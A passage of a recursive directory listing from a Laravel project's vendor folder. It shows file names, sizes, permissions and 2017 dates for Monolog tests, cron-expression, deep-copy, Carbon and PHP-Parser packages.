-rw-r--r-- 1 www-data www-data 1.3K Mar 13  2017 PsrHandlerTest.php
-rw-r--r-- 1 www-data www-data 5.2K Mar 13  2017 PushoverHandlerTest.php
-rw-r--r-- 1 www-data www-data 8.7K Mar 13  2017 RavenHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.9K Mar 13  2017 RedisHandlerTest.php
-rw-r--r-- 1 www-data www-data 7.7K Mar 13  2017 RotatingFileHandlerTest.php
-rw-r--r-- 1 www-data www-data  845 Mar 13  2017 SamplingHandlerTest.php
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 Slack
-rw-r--r-- 1 www-data www-data 5.4K Mar 13  2017 SlackHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.2K Mar 13  2017 SlackWebhookHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.2K Mar 13  2017 SlackbotHandlerTest.php
-rw-r--r-- 1 www-data www-data 8.5K Mar 13  2017 SocketHandlerTest.php
-rw-r--r-- 1 www-data www-data 5.8K Mar 13  2017 StreamHandlerTest.php
-rw-r--r-- 1 www-data www-data 3.8K Mar 13  2017 SwiftMailerHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 13  2017 SyslogHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 13  2017 SyslogUdpHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.7K Mar 13  2017 TestHandlerTest.php
-rw-r--r-- 1 www-data www-data 1.7K Mar 13  2017 UdpSocketTest.php
-rw-r--r-- 1 www-data www-data 3.9K Mar 13  2017 WhatFailureGroupHandlerTest.php
-rw-r--r-- 1 www-data www-data 2.0K Mar 13  2017 ZendMonitorHandlerTest.php

/var/www/laravel/vendor/monolog/monolog/tests/Monolog/Handler/Fixtures:
total 8.0K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data    0 Mar 13  2017 .gitkeep

/var/www/laravel/vendor/monolog/monolog/tests/Monolog/Handler/Slack:
total 24K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data  14K Mar 13  2017 SlackRecordTest.php

/var/www/laravel/vendor/monolog/monolog/tests/Monolog/Processor:
total 48K
drwxr-xr-x 2 www-data www-data 4.0K Mar 13  2017 .
drwxr-xr-x 5 www-data www-data 4.0K Mar 13  2017 ..
-rw-r--r-- 1 www-data www-data  677 Mar 13  2017 GitProcessorTest.php
-rw-r--r-- 1 www-data www-data 3.1K Mar 13  2017 IntrospectionProcessorTest.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 13  2017 MemoryPeakUsageProcessorTest.php
-rw-r--r-- 1 www-data www-data 1.3K Mar 13  2017 MemoryUsageProcessorTest.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 13  2017 MercurialProcessorTest.php
-rw-r--r-- 1 www-data www-data  844 Mar 13  2017 ProcessIdProcessorTest.php
-rw-r--r-- 1 www-data www-data 1.1K Mar 13  2017 PsrLogMessageProcessorTest.php
-rw-r--r-- 1 www-data www-data 1.4K Mar 13  2017 TagProcessorTest.php
-rw-r--r-- 1 www-data www-data  755 Mar 13  2017 UidProcessorTest.php
-rw-r--r-- 1 www-data www-data 3.5K Mar 13  2017 WebProcessorTest.php

/var/www/laravel/vendor/mtdowling:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 cron-expression

/var/www/laravel/vendor/mtdowling/cron-expression:
total 36K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  234 Jan 23  2017 .editorconfig
-rw-r--r-- 1 www-data www-data 1.1K Jan 23  2017 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 1.1K Jan 23  2017 LICENSE
-rw-r--r-- 1 www-data www-data 2.7K Jan 23  2017 README.md
-rw-r--r-- 1 www-data www-data  695 Jan 23  2017 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Jan 23  2017 src
drwxr-xr-x 3 www-data www-data 4.0K Jan 23  2017 tests

/var/www/laravel/vendor/mtdowling/cron-expression/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jan 23  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jan 23  2017 Cron

/var/www/laravel/vendor/mtdowling/cron-expression/src/Cron:
total 68K
drwxr-xr-x 2 www-data www-data 4.0K Jan 23  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 23  2017 ..
-rw-r--r-- 1 www-data www-data 3.9K Jan 23  2017 AbstractField.php
-rw-r--r-- 1 www-data www-data  14K Jan 23  2017 CronExpression.php
-rw-r--r-- 1 www-data www-data 5.6K Jan 23  2017 DayOfMonthField.php
-rw-r--r-- 1 www-data www-data 4.3K Jan 23  2017 DayOfWeekField.php
-rw-r--r-- 1 www-data www-data 1.6K Jan 23  2017 FieldFactory.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 23  2017 FieldInterface.php
-rw-r--r-- 1 www-data www-data 2.2K Jan 23  2017 HoursField.php
-rw-r--r-- 1 www-data www-data 1.8K Jan 23  2017 MinutesField.php
-rw-r--r-- 1 www-data www-data  988 Jan 23  2017 MonthField.php
-rw-r--r-- 1 www-data www-data  779 Jan 23  2017 YearField.php

/var/www/laravel/vendor/mtdowling/cron-expression/tests:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jan 23  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jan 23  2017 Cron

/var/www/laravel/vendor/mtdowling/cron-expression/tests/Cron:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Jan 23  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 23  2017 ..
-rw-r--r-- 1 www-data www-data 3.0K Jan 23  2017 AbstractFieldTest.php
-rw-r--r-- 1 www-data www-data  19K Jan 23  2017 CronExpressionTest.php
-rw-r--r-- 1 www-data www-data 1.6K Jan 23  2017 DayOfMonthFieldTest.php
-rw-r--r-- 1 www-data www-data 3.8K Jan 23  2017 DayOfWeekFieldTest.php
-rw-r--r-- 1 www-data www-data  995 Jan 23  2017 FieldFactoryTest.php
-rw-r--r-- 1 www-data www-data 2.2K Jan 23  2017 HoursFieldTest.php
-rw-r--r-- 1 www-data www-data  926 Jan 23  2017 MinutesFieldTest.php
-rw-r--r-- 1 www-data www-data 2.3K Jan 23  2017 MonthFieldTest.php
-rw-r--r-- 1 www-data www-data  915 Jan 23  2017 YearFieldTest.php

/var/www/laravel/vendor/myclabs:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  4 www-data www-data 4.0K Apr  9  2017 deep-copy

/var/www/laravel/vendor/myclabs/deep-copy:
total 48K
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data  136 Jan 27  2017 .gitattributes
-rwxr-xr-x 1 www-data www-data   56 Jan 27  2017 .gitignore
-rwxr-xr-x 1 www-data www-data  723 Jan 27  2017 .travis.yml
-rw-r--r-- 1 www-data www-data 1.1K Jan 27  2017 LICENSE
-rw-r--r-- 1 www-data www-data 8.6K Jan 27  2017 README.md
-rw-r--r-- 1 www-data www-data  592 Jan 27  2017 composer.json
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 doc
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 src

/var/www/laravel/vendor/myclabs/deep-copy/doc:
total 60K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data  13K Jan 27  2017 clone.png
-rw-r--r-- 1 www-data www-data  14K Jan 27  2017 deep-clone.png
-rw-r--r-- 1 www-data www-data  11K Jan 27  2017 deep-copy.png
-rw-r--r-- 1 www-data www-data 6.3K Jan 27  2017 graph.png

/var/www/laravel/vendor/myclabs/deep-copy/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 DeepCopy

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy:
total 40K
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data 6.3K Jan 27  2017 DeepCopy.php
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 Exception
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 Filter
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 Matcher
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 Reflection
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 TypeFilter
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 TypeMatcher

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/Exception:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data   96 Jan 27  2017 CloneException.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/Filter:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 Doctrine
-rw-r--r-- 1 www-data www-data  339 Jan 27  2017 Filter.php
-rw-r--r-- 1 www-data www-data  249 Jan 27  2017 KeepFilter.php
-rw-r--r-- 1 www-data www-data  782 Jan 27  2017 ReplaceFilter.php
-rw-r--r-- 1 www-data www-data  434 Jan 27  2017 SetNullFilter.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/Filter/Doctrine:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data  726 Jan 27  2017 DoctrineCollectionFilter.php
-rw-r--r-- 1 www-data www-data  613 Jan 27  2017 DoctrineEmptyCollectionFilter.php
-rw-r--r-- 1 www-data www-data  377 Jan 27  2017 DoctrineProxyFilter.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/Matcher:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 ..
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 Doctrine
-rw-r--r-- 1 www-data www-data  235 Jan 27  2017 Matcher.php
-rw-r--r-- 1 www-data www-data  669 Jan 27  2017 PropertyMatcher.php
-rw-r--r-- 1 www-data www-data  480 Jan 27  2017 PropertyNameMatcher.php
-rw-r--r-- 1 www-data www-data  914 Jan 27  2017 PropertyTypeMatcher.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/Matcher/Doctrine:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data  344 Jan 27  2017 DoctrineProxyMatcher.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/Reflection:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data 1.1K Jan 27  2017 ReflectionHelper.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/TypeFilter:
total 24K
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data  506 Jan 27  2017 ReplaceFilter.php
-rw-r--r-- 1 www-data www-data  205 Jan 27  2017 ShallowCopyFilter.php
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 Spl
-rw-r--r-- 1 www-data www-data  185 Jan 27  2017 TypeFilter.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/TypeFilter/Spl:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data  768 Jan 27  2017 SplDoublyLinkedList.php

/var/www/laravel/vendor/myclabs/deep-copy/src/DeepCopy/TypeMatcher:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 27  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Jan 27  2017 ..
-rw-r--r-- 1 www-data www-data  484 Jan 27  2017 TypeMatcher.php

/var/www/laravel/vendor/nesbot:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 carbon

/var/www/laravel/vendor/nesbot/carbon:
total 28K
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.6K Jan 16  2017 .php_cs.dist
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 LICENSE
-rw-r--r-- 1 www-data www-data 1.4K Jan 16  2017 composer.json
-rw-r--r-- 1 www-data www-data 2.7K Jan 16  2017 readme.md
drwxr-xr-x 3 www-data www-data 4.0K Jan 16  2017 src

/var/www/laravel/vendor/nesbot/carbon/src:
total 12K
drwxr-xr-x 3 www-data www-data 4.0K Jan 16  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 4 www-data www-data 4.0K Jan 16  2017 Carbon

/var/www/laravel/vendor/nesbot/carbon/src/Carbon:
total 120K
drwxr-xr-x 4 www-data www-data 4.0K Jan 16  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Jan 16  2017 ..
-rw-r--r-- 1 www-data www-data  81K Jan 16  2017 Carbon.php
-rw-r--r-- 1 www-data www-data  17K Jan 16  2017 CarbonInterval.php
drwxr-xr-x 2 www-data www-data 4.0K Jan 16  2017 Exceptions
drwxr-xr-x 2 www-data www-data 4.0K Jan 16  2017 Lang

/var/www/laravel/vendor/nesbot/carbon/src/Carbon/Exceptions:
total 12K
drwxr-xr-x 2 www-data www-data 4.0K Jan 16  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jan 16  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Jan 16  2017 InvalidDateException.php

/var/www/laravel/vendor/nesbot/carbon/src/Carbon/Lang:
total 236K
drwxr-xr-x 2 www-data www-data 4.0K Jan 16  2017 .
drwxr-xr-x 4 www-data www-data 4.0K Jan 16  2017 ..
-rw-r--r-- 1 www-data www-data  879 Jan 16  2017 af.php
-rw-r--r-- 1 www-data www-data 1.8K Jan 16  2017 ar.php
-rw-r--r-- 1 www-data www-data  776 Jan 16  2017 az.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 bg.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 bn.php
-rw-r--r-- 1 www-data www-data  886 Jan 16  2017 ca.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 cs.php
-rw-r--r-- 1 www-data www-data  884 Jan 16  2017 da.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 de.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 el.php
-rw-r--r-- 1 www-data www-data  827 Jan 16  2017 en.php
-rw-r--r-- 1 www-data www-data  914 Jan 16  2017 eo.php
-rw-r--r-- 1 www-data www-data  906 Jan 16  2017 es.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 et.php
-rw-r--r-- 1 www-data www-data  890 Jan 16  2017 eu.php
-rw-r--r-- 1 www-data www-data  826 Jan 16  2017 fa.php
-rw-r--r-- 1 www-data www-data  968 Jan 16  2017 fi.php
-rw-r--r-- 1 www-data www-data  912 Jan 16  2017 fo.php
-rw-r--r-- 1 www-data www-data  887 Jan 16  2017 fr.php
-rw-r--r-- 1 www-data www-data  649 Jan 16  2017 gl.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 he.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 hr.php
-rw-r--r-- 1 www-data www-data 1.6K Jan 16  2017 hu.php
-rw-r--r-- 1 www-data www-data  838 Jan 16  2017 hy.php
-rw-r--r-- 1 www-data www-data  788 Jan 16  2017 id.php
-rw-r--r-- 1 www-data www-data  904 Jan 16  2017 it.php
-rw-r--r-- 1 www-data www-data  764 Jan 16  2017 ja.php
-rw-r--r-- 1 www-data www-data  950 Jan 16  2017 ka.php
-rw-r--r-- 1 www-data www-data  948 Jan 16  2017 km.php
-rw-r--r-- 1 www-data www-data  758 Jan 16  2017 ko.php
-rw-r--r-- 1 www-data www-data 1.8K Jan 16  2017 lt.php
-rw-r--r-- 1 www-data www-data 2.1K Jan 16  2017 lv.php
-rw-r--r-- 1 www-data www-data  738 Jan 16  2017 mk.php
-rw-r--r-- 1 www-data www-data  786 Jan 16  2017 ms.php
-rw-r--r-- 1 www-data www-data  866 Jan 16  2017 nl.php
-rw-r--r-- 1 www-data www-data  888 Jan 16  2017 no.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 pl.php
-rw-r--r-- 1 www-data www-data  893 Jan 16  2017 pt.php
-rw-r--r-- 1 www-data www-data  890 Jan 16  2017 pt_BR.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 ro.php
-rw-r--r-- 1 www-data www-data 1.4K Jan 16  2017 ru.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 sk.php
-rw-r--r-- 1 www-data www-data 1.9K Jan 16  2017 sl.php
-rw-r--r-- 1 www-data www-data  894 Jan 16  2017 sq.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 sr.php
-rw-r--r-- 1 www-data www-data 1.8K Jan 16  2017 sr_Cyrl_ME.php
-rw-r--r-- 1 www-data www-data 1.6K Jan 16  2017 sr_Latn_ME.php
-rw-r--r-- 1 www-data www-data 1.6K Jan 16  2017 sr_ME.php
-rw-r--r-- 1 www-data www-data  897 Jan 16  2017 sv.php
-rw-r--r-- 1 www-data www-data 1.2K Jan 16  2017 th.php
-rw-r--r-- 1 www-data www-data  768 Jan 16  2017 tr.php
-rw-r--r-- 1 www-data www-data 1.4K Jan 16  2017 uk.php
-rw-r--r-- 1 www-data www-data  610 Jan 16  2017 ur.php
-rw-r--r-- 1 www-data www-data 1.1K Jan 16  2017 uz.php
-rw-r--r-- 1 www-data www-data  792 Jan 16  2017 vi.php
-rw-r--r-- 1 www-data www-data  746 Jan 16  2017 zh.php
-rw-r--r-- 1 www-data www-data  755 Jan 16  2017 zh_TW.php

/var/www/laravel/vendor/nikic:
total 12K
drwxr-xr-x  3 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 31 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 php-parser

/var/www/laravel/vendor/nikic/php-parser:
total 92K
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data   58 Mar  5  2017 .gitignore
-rw-r--r-- 1 www-data www-data  640 Mar  5  2017 .travis.yml
-rw-r--r-- 1 www-data www-data  15K Mar  5  2017 CHANGELOG.md
-rw-r--r-- 1 www-data www-data 1.5K Mar  5  2017 LICENSE
-rw-r--r-- 1 www-data www-data 2.9K Mar  5  2017 README.md
-rw-r--r-- 1 www-data www-data 4.7K Mar  5  2017 UPGRADE-1.0.md
-rw-r--r-- 1 www-data www-data 2.9K Mar  5  2017 UPGRADE-2.0.md
-rw-r--r-- 1 www-data www-data 7.2K Mar  5  2017 UPGRADE-3.0.md
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 bin
-rw-r--r-- 1 www-data www-data  618 Mar  5  2017 composer.json
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 doc
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 grammar
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 lib
-rw-r--r-- 1 www-data www-data  694 Mar  5  2017 phpunit.xml.dist
drwxr-xr-x 4 www-data www-data 4.0K Mar  5  2017 test
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 test_old

/var/www/laravel/vendor/nikic/php-parser/bin:
total 16K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rwxr-xr-x 1 www-data www-data 6.0K Mar  5  2017 php-parse

/var/www/laravel/vendor/nikic/php-parser/doc:
total 48K
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 3.5K Mar  5  2017 0_Introduction.markdown
-rw-r--r-- 1 www-data www-data  16K Mar  5  2017 2_Usage_of_basic_components.markdown
-rw-r--r-- 1 www-data www-data 8.1K Mar  5  2017 3_Other_node_tree_representations.markdown
-rw-r--r-- 1 www-data www-data 2.7K Mar  5  2017 4_Code_generation.markdown
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 component

/var/www/laravel/vendor/nikic/php-parser/doc/component:
total 20K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 3 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data 2.7K Mar  5  2017 Error_handling.markdown
-rw-r--r-- 1 www-data www-data 6.9K Mar  5  2017 Lexer.markdown

/var/www/laravel/vendor/nikic/php-parser/grammar:
total 132K
drwxr-xr-x 2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 8 www-data www-data 4.0K Apr  9  2017 ..
-rw-r--r-- 1 www-data www-data 1.3K Mar  5  2017 README.md
-rw-r--r-- 1 www-data www-data 2.2K Mar  5  2017 parser.template
-rw-r--r-- 1 www-data www-data  49K Mar  5  2017 php5.y
-rw-r--r-- 1 www-data www-data  44K Mar  5  2017 php7.y
-rw-r--r-- 1 www-data www-data 8.8K Mar  5  2017 rebuildParsers.php
-rw-r--r-- 1 www-data www-data  298 Mar  5  2017 tokens.template
-rw-r--r-- 1 www-data www-data 2.5K Mar  5  2017 tokens.y

/var/www/laravel/vendor/nikic/php-parser/lib:
total 16K
drwxr-xr-x  3 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x  8 www-data www-data 4.0K Apr  9  2017 ..
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 PhpParser
-rw-r--r--  1 www-data www-data  139 Mar  5  2017 bootstrap.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser:
total 200K
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x  3 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  988 Mar  5  2017 Autoloader.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Builder
-rw-r--r--  1 www-data www-data  170 Mar  5  2017 Builder.php
-rw-r--r--  1 www-data www-data 5.5K Mar  5  2017 BuilderAbstract.php
-rw-r--r--  1 www-data www-data 3.4K Mar  5  2017 BuilderFactory.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Comment
-rw-r--r--  1 www-data www-data 4.6K Mar  5  2017 Comment.php
-rw-r--r--  1 www-data www-data 4.5K Mar  5  2017 Error.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 ErrorHandler
-rw-r--r--  1 www-data www-data  268 Mar  5  2017 ErrorHandler.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Lexer
-rw-r--r--  1 www-data www-data  15K Mar  5  2017 Lexer.php
drwxr-xr-x  6 www-data www-data 4.0K Mar  5  2017 Node
-rw-r--r--  1 www-data www-data 1.8K Mar  5  2017 Node.php
-rw-r--r--  1 www-data www-data 2.8K Mar  5  2017 NodeAbstract.php
-rw-r--r--  1 www-data www-data 6.4K Mar  5  2017 NodeDumper.php
-rw-r--r--  1 www-data www-data 6.4K Mar  5  2017 NodeTraverser.php
-rw-r--r--  1 www-data www-data  576 Mar  5  2017 NodeTraverserInterface.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 NodeVisitor
-rw-r--r--  1 www-data www-data 1.9K Mar  5  2017 NodeVisitor.php
-rw-r--r--  1 www-data www-data  316 Mar  5  2017 NodeVisitorAbstract.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Parser
-rw-r--r--  1 www-data www-data  592 Mar  5  2017 Parser.php
-rw-r--r--  1 www-data www-data  30K Mar  5  2017 ParserAbstract.php
-rw-r--r--  1 www-data www-data 1.6K Mar  5  2017 ParserFactory.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 PrettyPrinter
-rw-r--r--  1 www-data www-data  12K Mar  5  2017 PrettyPrinterAbstract.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Serializer
-rw-r--r--  1 www-data www-data  283 Mar  5  2017 Serializer.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Unserializer
-rw-r--r--  1 www-data www-data  291 Mar  5  2017 Unserializer.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Builder:
total 52K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 2.9K Mar  5  2017 Class_.php
-rw-r--r--  1 www-data www-data  934 Mar  5  2017 Declaration.php
-rw-r--r--  1 www-data www-data 1.8K Mar  5  2017 FunctionLike.php
-rw-r--r--  1 www-data www-data 1.1K Mar  5  2017 Function_.php
-rw-r--r--  1 www-data www-data 2.0K Mar  5  2017 Interface_.php
-rw-r--r--  1 www-data www-data 3.0K Mar  5  2017 Method.php
-rw-r--r--  1 www-data www-data 1.3K Mar  5  2017 Namespace_.php
-rw-r--r--  1 www-data www-data 1.7K Mar  5  2017 Param.php
-rw-r--r--  1 www-data www-data 2.5K Mar  5  2017 Property.php
-rw-r--r--  1 www-data www-data 1.3K Mar  5  2017 Trait_.php
-rw-r--r--  1 www-data www-data 1.6K Mar  5  2017 Use_.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Comment:
total 12K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data   77 Mar  5  2017 Doc.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/ErrorHandler:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  839 Mar  5  2017 Collecting.php
-rw-r--r--  1 www-data www-data  336 Mar  5  2017 Throwing.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Lexer:
total 16K
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data 6.0K Mar  5  2017 Emulative.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node:
total 64K
drwxr-xr-x  6 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 12 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r--  1 www-data www-data  927 Mar  5  2017 Arg.php
-rw-r--r--  1 www-data www-data  705 Mar  5  2017 Const_.php
drwxr-xr-x  5 www-data www-data 4.0K Mar  5  2017 Expr
-rw-r--r--  1 www-data www-data  107 Mar  5  2017 Expr.php
-rw-r--r--  1 www-data www-data  592 Mar  5  2017 FunctionLike.php
drwxr-xr-x  2 www-data www-data 4.0K Mar  5  2017 Name
-rw-r--r--  1 www-data www-data 6.1K Mar  5  2017 Name.php
-rw-r--r--  1 www-data www-data  568 Mar  5  2017 NullableType.php
-rw-r--r--  1 www-data www-data 1.4K Mar  5  2017 Param.php
drwxr-xr-x  3 www-data www-data 4.0K Mar  5  2017 Scalar
-rw-r--r--  1 www-data www-data   72 Mar  5  2017 Scalar.php
drwxr-xr-x  3 www-data www-data 4.0K Mar  5  2017 Stmt
-rw-r--r--  1 www-data www-data  107 Mar  5  2017 Stmt.php

/var/www/laravel/vendor/nikic/php-parser/lib/PhpParser/Node/Expr:
total 188K
drwxr-xr-x 5 www-data www-data 4.0K Mar  5  2017 .
drwxr-xr-x 6 www-data www-data 4.0K Mar  5  2017 ..
-rw-r--r-- 1 www-data www-data  713 Mar  5  2017 ArrayDimFetch.php
-rw-r--r-- 1 www-data www-data  872 Mar  5  2017 ArrayItem.php
-rw-r--r-- 1 www-data www-data  685 Mar  5  2017 Array_.php
-rw-r--r-- 1 www-data www-data  666 Mar  5  2017 Assign.php
